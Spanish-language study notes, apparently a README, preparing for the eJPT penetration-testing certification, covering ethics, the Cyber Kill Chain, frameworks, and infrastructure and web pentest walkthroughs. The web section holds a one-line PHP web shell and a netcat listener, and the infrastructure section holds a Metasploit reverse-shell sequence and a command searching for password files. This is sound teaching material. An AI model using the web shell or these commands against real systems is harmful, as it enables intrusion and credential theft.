




# 🛡️ Fundamentos de Penetration Testing

> Apuntes estructurados sobre metodologías, marcos de trabajo y guías prácticas de Penetration Testing, orientados a preparación de certificaciones tipo eJPT.

---

## 📑 Tabla de contenidos

1. [Introducción y Fundamentos del Pentesting](#1-introducción-y-fundamentos-del-pentesting)
2. [La Cyber Kill Chain](#2-la-cyber-kill-chain)
3. [Marcos de Trabajo en Pentesting](#3-marcos-de-trabajo-en-pentesting-frameworks)
4. [Guía Práctica: Pentesting de Infraestructura](#4-guía-práctica-pentesting-de-infraestructura)
5. [Guía Práctica: Pentesting Web](#5-guía-práctica-pentesting-web)

---

## 1. Introducción y Fundamentos del Pentesting

### ¿Qué es el Penetration Testing?

Una **prueba de penetración (pentesting)** es una evaluación de seguridad autorizada realizada sobre sistemas, aplicaciones o redes. Se lleva a cabo con el permiso explícito del propietario del sistema y dentro de un alcance (*scope*) predefinido. Su objetivo principal es identificar vulnerabilidades antes de que atacantes maliciosos las exploten, permitiendo priorizar la remediación según el riesgo.

### 🆚 Pentesting vs. Hacking Malicioso

| Aspecto | Pentester | Atacante malicioso |
|---|---|---|
| **Autorización** | Consentimiento escrito explícito | Sin permiso |
| **Alcance** | Limitado estrictamente al *scope* acordado | Sin restricciones |
| **Cobertura** | Evalúa ampliamente la postura de seguridad | Busca la vía más rápida a su objetivo |
| **Responsabilidad** | Actúa con profesionalismo, informa hallazgos | Descuida los daños causados |

### ⚖️ La Tríada: Vulnerabilidad, Amenaza y Riesgo

- **Vulnerabilidad** — Una debilidad o brecha en un sistema, software o configuración que puede ser explotada (ej. software desactualizado).
- **Amenaza** — Cualquier factor (humano, malicioso, automatizado con IA o evento no malicioso) con capacidad e intención de explotar una vulnerabilidad.
- **Riesgo** — El daño potencial que resulta si una amenaza explota con éxito una vulnerabilidad.

> **Fórmula simplificada:** `Riesgo = Vulnerabilidad × Amenaza` (combinación de impacto y probabilidad).

### 🔄 Ciclo de Gestión de Riesgos



> **Nota:** alternativas a la mitigación son **aceptar el riesgo** (si el costo de mitigación supera el beneficio) o **transferirlo** (mediante un seguro cibernético).

### 🧩 Causas Comunes de Vulnerabilidades

- **Suposiciones humanas** — Asumir que los usuarios interactuarán con el sistema solo de la forma prevista (ej. subir scripts en vez de imágenes).
- **Errores de software (bugs)** — Fallas lógicas o falta de validación de entradas (ej. inyección SQL).
- **Complejidad del sistema** — Múltiples componentes interconectados (APIs, microservicios) que facilitan errores de configuración.
- **Sobrepersonalización** — Implementaciones personalizadas que no siguen estándares de seguridad (ej. lógica de autenticación propia).
- **Defectos técnicos y de diseño** — Falta de seguridad desde la concepción del diseño (ej. emisión de sesión antes de completar MFA).

### 🧠 La Mentalidad del Pentester y Ética

**Mentalidad efectiva:** curiosidad constante ("¿y si...?"), atención al detalle, pensamiento metódico y creativo, priorización de áreas críticas y comprensión del contexto del negocio.

**Buenas prácticas:** mantener notas detalladas, recopilar evidencias (capturas, registros), gestionar el tiempo e informar progresivamente.

**Principios fundamentales:**
- 🎯 **Ética** — respetar el alcance y proteger datos.
- 📝 **Permiso** — autorización por escrito.
- 🤝 **Confianza** — transparencia y profesionalismo.

---

## 2. La Cyber Kill Chain

La **Cyber Kill Chain**, desarrollada por Lockheed Martin en 2011, divide un ciberataque en siete etapas consecutivas:



### 1️⃣ Reconocimiento (*Reconnaissance*)
Recopilación de información sobre el objetivo.
- **Pasivo:** sin interactuar directamente con la víctima (WHOIS, DNS, OSINT, Google Dorks).
- **Activo:** interactuando con los sistemas objetivo (escaneo de puertos, escaneo de vulnerabilidades, ingeniería social).
- **Contramedidas:** limitar exposición de información pública, monitorear tráfico y logs.

### 2️⃣ Armamento (*Weaponisation*)
Creación o modificación de una carga útil (*payload*) maliciosa (ej. macros en documentos de Office, kits de explotación).
- **Contramedidas:** formación de usuarios, deshabilitar macros sin firmar.

### 3️⃣ Entrega (*Delivery*)
Transmisión del payload al entorno objetivo (phishing, enlaces maliciosos, USB, malvertising).
- **Contramedidas:** filtro de correo/web, Firewalls de Aplicaciones Web (WAF), concienciación.

### 4️⃣ Explotación (*Exploitation*)
Ejecución de la carga útil que aprovecha la vulnerabilidad (fuerza bruta de contraseñas, exploits de software, SQLi).
- **Contramedidas:** gestión de parches, MFA, uso de IPS/WAF.

### 5️⃣ Instalación (*Installation*)
Establecimiento de acceso persistente en el sistema objetivo (puertas traseras, tareas programadas/cron, webshells, LOLBins).
- **Contramedidas:** soluciones EDR, monitoreo de nuevos procesos y servicios, listas blancas de aplicaciones.

### 6️⃣ Comando y Control (*C2*)
Establecimiento de un canal encubierto entre el sistema comprometido y la infraestructura del atacante (HTTP/HTTPS, DNS Tunneling, DGA, Fast Flux).
- **Contramedidas:** inspección de tráfico cifrado, monitoreo de consultas DNS, honeypots.

### 7️⃣ Acciones sobre Objetivos (*Actions on Objectives*)
Ejecución del propósito final del ataque (exfiltración de datos, ransomware, destrucción de sistemas, movimiento lateral).
- **Contramedidas:** soluciones DLP, segmentación de red, copias de seguridad (*backups*), principio de menor privilegio.

---

## 3. Marcos de Trabajo en Pentesting (Frameworks)

Los marcos proporcionan una metodología estructurada para realizar evaluaciones sistemáticas, consistentes y repetibles.

| Marco / Estándar | Enfoque Principal | Características Clave |
|---|---|---|
| **OSSTMM** | Científico y cuantitativo | Mide la seguridad mediante métricas **RAV** (Valores de Evaluación de Riesgos) en 5 canales (Humana, Física, Inalámbrica, Telecomunicaciones, Datos). Genera informes **STAR**. |
| **OWASP WSTG** | Aplicaciones Web | +90 casos de prueba en 12 categorías, organizados a lo largo del ciclo de vida de desarrollo de software (SDLC). |
| **NIST SP 800-115** | Evaluación técnica gubernamental | 3 fases: Planificación, Ejecución (revisión, identificación, validación de vulnerabilidades y pentest) y Post-prueba. |
| **PTES** | Práctico y de ciclo completo | 7 fases: Pre-compromiso, Recopilación de inteligencia, Modelado de amenazas, Análisis de vulnerabilidades, Explotación, Post-explotación y Reporte. |
| **ISSAF** | Histórico / basado en fases | 3 fases con un modelo de evaluación de 9 pasos que refleja el progreso detallado de un atacante (reconocimiento hasta limpieza de huellas). |
| **MITRE ATT&CK** | Base de conocimiento complementaria | Matriz de 14 Tácticas, Técnicas y Subtécnicas basadas en el comportamiento real del adversario. No es una metodología, sino un lenguaje común para mapear hallazgos. |
| **Otros marcos** | Especializados | **OWASP MASTG** (apps móviles), **PCI DSS** (datos de tarjetas de pago), **CBEST** (sector financiero UK), **CSA CCM** (seguridad en la nube). |

---

## 4. Guía Práctica: Pentesting de Infraestructura



### 🔎 1. Enumeración
Recopilar datos detallados de la red y servicios antes de actuar.

```bash
nmap -sV -sC -oN scan.txt <IP_OBJETIVO>
```

| Flag | Función |
|---|---|
| `-sV` | Identifica versiones de servicios |
| `-sC` | Ejecuta scripts por defecto de Nmap |
| `-oN scan.txt` | Guarda la salida para documentación e informes |

### 📋 2. Análisis de Vulnerabilidades
Interpretar los resultados del escaneo. Búsqueda de exploits conocidos mediante herramientas locales:

```bash
searchsploit <servicio_version>
```

### 💥 3. Acceso Inicial (*Initial Access*)
Explotación autorizada usando el marco **Metasploit**:

```bash
msfconsole
search <servicio>
use <módulo>
set RHOSTS <IP>
set LHOST <IP>
set LPORT 443
set payload cmd/unix/reverse
exploit
```

### 🔓 4. Post-Explotación y Escalada de Privilegios

Búsqueda de archivos sensibles y credenciales expuestas en texto plano:

```bash
find / -name password* 2>/dev/null
```

Conexión por SSH con privilegios elevados:

```bash
ssh root@<IP>
```

> **Nota TTY:** un shell inverso básico suele ser un shell "tonto"; interactuar con comandos como `su` o `sudo` requiere la actualización a un TTY interactivo completo.

### 📄 5. Redacción del Informe (*Reporting*)

El informe es el entregable principal. Debe incluir:

- Portada
- Resumen Ejecutivo (no técnico)
- Resumen Técnico
- Tabla de Vulnerabilidades ordenadas por gravedad
- Sección Detallada de Explotación con pasos de reproducción y recomendaciones de mitigación

---

## 5. Guía Práctica: Pentesting Web

El pentesting en aplicaciones web evalúa la interacción entre el navegador, la aplicación y la infraestructura backend (pila LAMP: Apache + PHP + MySQL, etc.).



### 🔎 1. Reconocimiento y Enumeración de Directorios

Identificación de puertos abiertos (80 HTTP, 443 HTTPS, 3306 MySQL, 22 SSH) y encabezados HTTP. Descubrimiento de rutas ocultas mediante herramientas como **Gobuster**:

```bash
gobuster dir -u http://<IP> -w <wordlist>
```

Rutas típicas a encontrar: `/admin`, `/api`, `/reset.php`, `/uploads`.

### 🎭 2. Explotación de IDOR (*Insecure Direct Object References*)

Ocurre cuando la aplicación utiliza identificadores predecibles sin verificar la autorización del usuario autenticado.

> **Ejemplo:** cambiar `profile.php?id=6` por `profile.php?id=1`, o consultar puntos finales de API (`/api/user?id=1`), permite exfiltrar información confidencial del administrador.

### 🔑 3. Abuso de Restablecimiento Débil de Contraseñas

Fallas en el flujo de recuperación:
- Tokens generados de forma predecible (6 dígitos)
- Ausencia de limitación de tasa (*rate limiting*)
- Exposición directa del token en la respuesta HTTP

### 📤 4. Bypass en la Carga de Archivos (*File Upload*) y RCE

Las restricciones únicamente del lado del cliente (atributos HTML `accept`) son fácilmente omitibles. Si existe una lista negra incompleta de extensiones (bloqueando `.php` pero permitiendo extensiones alternativas como `.phtml`), el servidor procesará el script malicioso.

**Web Shell** — script PHP sencillo para ejecutar comandos del sistema operativo desde la URL:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

**Reverse Shell** — establecimiento de un oyente local y activación de una carga útil para obtener un shell interactivo:

```bash
nc -lvnp 4444
```

### 🛠️ Matriz de Remediación

| Vulnerabilidad | Remediación |
|---|---|
| **IDOR** | Implementar controles de autorización y verificación de permisos en el lado del servidor antes de devolver cualquier recurso. |
| **Restablecimiento de Contraseñas** | Enviar tokens únicamente por correo electrónico, usar tokens criptográficamente seguros (≥32 caracteres) y limitar el número de intentos. |
| **Carga de Archivos** | Usar una lista de extensión permitida (*allowlist*), validar el contenido/tipo MIME, renombrar archivos y almacenarlos fuera de la raíz web (*web root*). |

---

<sub>📚 Apuntes de preparación eJPT — última actualización: revisar módulos de TryHackMe (Jr Penetration Tester Path)</sub>
